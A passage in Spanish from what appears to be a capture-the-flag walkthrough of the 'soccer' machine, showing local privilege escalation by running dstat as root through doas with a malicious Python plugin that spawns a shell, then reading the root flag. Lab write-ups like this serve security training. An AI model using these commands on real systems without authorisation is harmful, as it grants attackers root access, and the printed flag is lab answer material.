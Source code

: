esto quiere decir que con doas se puede ejecutar dstat como root siendo el usuario player.
buscando en gtfobins se encuentra un comando para escalar privilegios al ejecutar dstat como root

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
/usr/local/bin/doas -u root /usr/bin/dstat --xxx

```

ya como root se puede ejecutar bash para que este mas bonito y se vea usuario, host, pwd
```bash
# bash
root@soccer:~#
root@soccer:~# cat root.txt 
a6bb659aa52b6e96abc553e0bb5be07b
```

















